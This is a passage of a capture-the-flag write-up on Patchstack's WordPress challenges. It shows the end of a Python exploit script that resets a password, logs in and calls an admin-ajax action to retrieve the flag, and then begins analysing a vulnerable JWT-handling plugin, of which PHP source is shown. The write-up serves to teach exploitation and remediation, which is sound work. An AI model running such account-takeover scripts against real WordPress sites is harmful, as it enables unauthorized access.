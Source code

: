 ```python
		req = self.session.post(urljoin(self.url, '/wp-admin/admin-ajax.php?action=patchstack_flagger'), data=data)

		return json.loads(req.text)['data']['value']

if __name__ == '__main__':
	run = Exploit('banua','banua@banua.github.io', 'ND8Ilg&6@z)SQ4GOiYtq)ozp')
	print(run.reset_password())
	print(run.setnewpass())
	run.loginWordpress()
	print(run.getFlag())
```

Run the script, and the FLAG is obtained.
![Flag](/assets/img/Patchstack-WCUS-CTF-2024/WPElevator_Flag.png)

**Flag:** CTF{763edf891200bb_n0nc3s_f0r_auth0riz4t10n}

**Remediation:**

- Use strong Key with minimum length 20 character (Default [Source](https://developer.wordpress.org/reference/functions/get_password_reset_key/))

# **JustinWonkyTokens**

**Description:**\
Hey, new Wordpress Dev here. I'm developing a simple authentication checker service that I will later connect it to a REST api. I have downloaded some boilerplate plugin templates and started working on them. I have a demo plugin already do you want to check if it works correctly?
This is a whitebox challenge, no need to bruteforce anything (login, endpoint, etc).
http://100.25.255.51:9094/

**Analysis:**\
This challenge involved a custom WordPress plugin. We were provided with the source code to analyze and debug the vulnerability.

The first step I took was to check the location of the FLAG. It was found that there is a line that reads the FLAG using the file_get_contents function in the p-member-manager.php file. After further inspection, this line is located within the simple_jwt_handler function.

```php
function simple_jwt_handler() {
    $flag = file_get_contents('/flag.txt');
    $privateKey = file_get_contents('/jwt.key');
    $publicKey = <<<EOD
    -----BEGIN PUBLIC KEY-----
    MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAqXfQ7ExnjmPJbSwuFoxw
    3kuBeE716YM5uXirwUb0OWB5RfACAx9yulBQJorcQIUdeRf+YpkQU5U8h3jVyeqw
    HzjOjNjM00CVFeogTnueHoose7Jcdi/K3NyYcFQINui7b6cGab8hMl6SgctwZu1l
    G0bk0VcqgafWFqSfIYZYw57GYhMnfPe7OR0Cvv1HBCD2nWYilDp/Hq3WUkaMWGsG
    UBMSNpC2C/3CzGOBV8tHWAUA8CFI99dHckMZCFJlKMWNQUQlTlF3WB1PnDNL4EPY
    YC+8DqJDSLCvFwI+DeqXG4B/DIYdJyhEgMdZfAKSbMJtsanOVjBLJx4hrNS42RNU
    dwIDAQAB
    -----END PUBLIC KEY-----
    EOD;
```

[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn